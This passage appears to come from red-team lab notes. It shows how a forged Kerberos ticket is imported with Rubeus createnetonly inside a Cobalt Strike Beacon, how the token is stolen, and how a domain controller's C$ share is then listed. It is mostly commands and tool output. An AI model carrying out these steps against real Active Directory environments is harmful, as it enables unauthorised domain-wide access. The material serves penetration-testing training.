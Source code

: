 **Just like with the silver ticket, we can import it into a Beacon into a logon session to use throughout the Domain:**

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5060
[+] Ticket successfully imported!
[+] LUID            : 0x449047

beacon> steal_token 5060
beacon> run klist

#0>	Client: nlamb @ DEV.CYBERBOTIC.IO
	Server: krbtgt/dev.cyberbotic.io @ DEV.CYBERBOTIC.IO
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96

beacon> ls \\dc-2.dev.cyberbotic.io\c$
[*] Listing: \\dc-2.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 15:44:08   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 16:09:55   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 10:51:51   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/05/2022 17:17:48   ProgramData
          dir     08/15/2022 15:23:23   Recovery
          dir     08/16/2022 12:37:38   Shares
          dir     09/05/2022 12:03:43   System Volume Information
          dir     08/15/2022 15:24:39   Users
          dir     09/06/2022 15:21:25   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 1kb      fil     08/15/2022 16:16:13   dc-2.dev.cyberbotic.io_sub-ca.req
 12kb     fil     09/05/2022 07:25:58   DumpStack.log
 12kb     fil     09/09/2022 09:36:12   DumpStack.log.tmp
 384mb    fil     09/09/2022 09:36:12   pagefile.sys
```
